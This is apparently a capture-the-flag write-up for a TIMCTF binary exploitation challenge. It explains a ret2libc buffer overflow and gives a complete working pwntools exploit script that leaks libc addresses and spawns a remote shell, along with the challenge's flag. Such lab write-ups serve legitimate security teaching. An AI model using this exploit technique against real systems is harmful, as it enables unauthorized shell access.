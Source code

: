 # Flag Manager Service [400]
**Category:** Binary Exploitation 

> Our spies found this flag manager service running on the ctf server. It needs a password tho, but I am sure you can handle it.  
nc 89.38.208.144 11115

## Write-up
Analysis of the binary with Ghidra shows this is a standard ret2libc buffer overflow. `libc-2.27.so` being provided reinforces the challenge being a ret2libc.

As usual, all ret2libc exploits have the following order:
1. **Leak the address of puts**  
Leak the address of `puts` using `puts` to output the address. Essentially, just call `puts(puts_got)`, where `puts_got` is the address of `puts`in the `GLOBAL OFFSET TABLE (GOT)`.

2. **Calculate the libc base**  
Libc base can be calculated using `puts` - `puts_offset`, where `puts` is the leaked address and `puts_offset` is the address of `puts` in libc. 

3. **Calculate system and /bin/sh address**    
With libc base value, the address of `system` and the string `/bin/sh\x00` can be calculated using `libc_base + system_offset` and `libc_base + binsh_offset` respectively.

4. **Call system(/bin/sh)**  
Overflow the buffer and call `system(/bin/sh)`, which executes shell. Before calling `system(/bin/sh)`, the `RSI` register has to be set to 0, or the call will not work.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./flag_manager01",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11115,
}

def exploit(p):
	padding = "\x90"*88
	main = elf.symbols['main']
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']

	pop_rdi = elf.search(asm("pop rdi ; ret")).next()
	pop_rsi_r15 = elf.search(asm("pop rsi ; pop r15 ; ret")).next()

	payload = padding 
	payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
	sla("Enter your name: ", payload)
	sla("Enter password please: ", '') 

	p.recvline()
	p.recvline()

	puts = u64(p.recvline().strip() + '\x00'*2)
	base = puts - libc.symbols['puts']
	system = base + libc.symbols['system']
	sh = base + libc.search("/bin/sh\x00").next()

	payload = padding + p64(pop_rdi) + p64(sh) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(system)

	sla("Enter your name: ", payload)
	sla("Enter password please: ", '')
	 
	lg("SYSTEM: " + hex(system))
	lg("BASE: " + hex(base))
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{d3v_fd_i5_sn3aky_backd00r}
